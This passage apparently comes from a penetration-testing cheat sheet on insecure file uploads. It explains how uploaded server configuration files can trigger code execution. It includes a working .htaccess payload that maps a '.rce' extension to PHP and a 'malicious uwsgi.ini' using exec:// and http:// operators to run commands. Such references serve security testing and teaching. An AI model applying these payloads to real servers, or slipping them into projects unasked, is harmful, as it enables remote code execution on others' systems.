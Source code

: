 ### Configuration Files

If you are trying to upload files to a :

- PHP server, take a look at the [.htaccess](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
- uWSGI server, take a look at the [uwsgi.ini](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.

Configuration files examples

- [Apache: .htaccess](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [IIS: web.config](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [Python: \_\_init\_\_.py](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
- [WSGI: uwsgi.ini](https://github.com/khulnasoft/Resources/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)


#### Apache: .htaccess

The `AddType` directive in an `.htaccess` file is used to specify the MIME (Multipurpose Internet Mail Extensions) type for different file extensions on an Apache HTTP Server. This directive helps the server understand how to handle different types of files and what content type to associate with them when serving them to clients (such as web browsers).  

Here is the basic syntax of the AddType directive: 

```ps1
AddType mime-type extension [extension ...]
```

Exploit `AddType` directive by uploading an .htaccess file with the following content. 

```ps1
AddType application/x-httpd-php .rce
```

Then upload any file with `.rce` extension.


#### WSGI: uwsgi.ini

uWSGI configuration files can include “magic” variables, placeholders and operators defined with a precise syntax. The ‘@’ operator in particular is used in the form of @(filename) to include the contents of a file. Many uWSGI schemes are supported, including “exec” - useful to read from a process’s standard output. These operators can be weaponized for Remote Command Execution or Arbitrary File Write/Read when a .ini configuration file is parsed:

Example of a malicious `uwsgi.ini` file:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)
```

